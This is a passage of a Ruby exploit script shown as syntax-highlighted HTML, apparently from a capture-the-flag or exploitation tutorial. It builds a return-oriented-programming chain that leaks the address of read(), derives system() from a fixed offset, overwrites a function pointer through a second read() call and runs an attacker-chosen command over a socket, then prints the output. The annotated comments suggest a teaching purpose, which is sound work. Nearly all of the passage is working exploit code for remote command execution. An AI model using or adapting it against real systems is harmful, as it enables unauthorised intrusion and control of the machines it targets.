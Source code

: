 ```
<span class="lnr">58 </span>    <span class="Constant">1</span>,           <span class="Comment"># stdout</span>
<span class="lnr">59 </span>    pppr_addr,   <span class="Comment"># retrurn address</span>
<span class="lnr">60 </span>
<span class="lnr">61 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">62 </span>    write_addr,
<span class="lnr">63 </span>
<span class="lnr">64 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">65 </span>    <span class="Comment"># This reads the command we want to run from the socket and puts it</span>
<span class="lnr">66 </span>    <span class="Comment"># in our writable "buf"</span>
<span class="lnr">67 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">68 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">69 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">70 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">71 </span>
<span class="lnr">72 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">73 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">74 </span>
<span class="lnr">75 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">76 </span>s.write(payload)
<span class="lnr">77 </span>
<span class="lnr">78 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">79 </span>s.write(cmd)
<span class="lnr">80 </span>
<span class="lnr">81 </span><span class="Comment"># Get the result of the first read() call, which is the actual address of read</span>
<span class="lnr">82 </span>this_read_addr = s.read(<span class="Constant">4</span>).unpack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>).first
<span class="lnr">83 </span>
<span class="lnr">84 </span><span class="Comment"># Calculate the address of system()</span>
<span class="lnr">85 </span>this_system_addr = this_read_addr - read_system_diff
<span class="lnr">86 </span>
<span class="lnr">87 </span><span class="Comment"># Write the address back, where it'll be read() into the correct place by</span>
<span class="lnr">88 </span><span class="Comment"># the second read() call</span>
<span class="lnr">89 </span>s.write([this_system_addr].pack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>))
<span class="lnr">90 </span>
<span class="lnr">91 </span><span class="Comment"># Finally, read the result of the actual command</span>
<span class="lnr">92 </span>puts(s.read())
<span class="lnr">93 </span>
<span class="lnr">94 </span><span class="Comment"># Clean up</span>
<span class="lnr">95 </span>s.close()
```
